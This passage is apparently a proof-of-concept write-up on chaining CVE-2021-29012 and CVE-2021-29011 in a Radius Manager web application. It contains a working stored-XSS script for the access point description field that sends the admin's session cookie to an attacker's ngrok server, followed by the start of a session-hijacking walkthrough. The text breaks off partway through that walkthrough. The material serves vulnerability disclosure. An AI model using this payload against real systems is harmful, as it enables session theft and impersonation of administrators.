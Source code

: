 * [Dropbox - xss2-2021-03-19_21.15.10.mkv](https://www.dropbox.com/s/yzls7l7vrqq8ym9/xss2-2021-03-19_21.15.10.mkv?dl=0)

# Chaining CVEs Together

This section details chaining together CVE-2021-29012 & CVE-2021-29011 in order to take an admin's session cookie & perform requests on their behalf.

There are multiple fields that are vulnerable to cross-site scripting but I could only find 1 field (the access point description field) that could fit an entire script for extracting a cookie & sending it off to an attacker for use in session hijacking.

## Tools Used:

1. Ngrok & Python's simple HTTP server to simulate an attacker's server receiving the session cookie

## Proof of Concept

Once we place our script inside the Access Point's description, anytime a user lists the available access points, we will receive their session cookie on our server & be able to impersonate them.

### Cross Site Scripting (XSS)

We first need to inject our script into an input field so that whenever an admin logs in & lists the available access points, their cookie is sent to us (the attacker in this scenario).

The script used that will be injected is:

```javascript
<script> 
var xl = new XMLHttpRequest(); 
const url = 'http://dat.ngrok.io/cookie=' + document.cookie; 
xl.open("GET", url, false); xl.send();alert(xl.responseText);
</script>
```

where dat is the subdomain generated by ngrok. And we will be injecting it into the description field when adding/editing an access point.

After listing the available access points as an admin, this is what an attacker would see:

![](/home/nikola/fun/vulns/DMA-softlab/cve-2021-29011/img3.png)

As you can see, we have everything we need in order to impersonate the admin user and this was achieved just by having them list the available access points. This of course requires that an attacker already have an account registered on the Radius Manager with sufficient privileges to add/edit an access point.

### Broken Session Management Exploitation

The next stage of the attack would be abusing the broken session management in order to make requests on someone else's behalf without their interaction. This simply involves intercepting the request exchanging the cookie parameter with the stolen one:
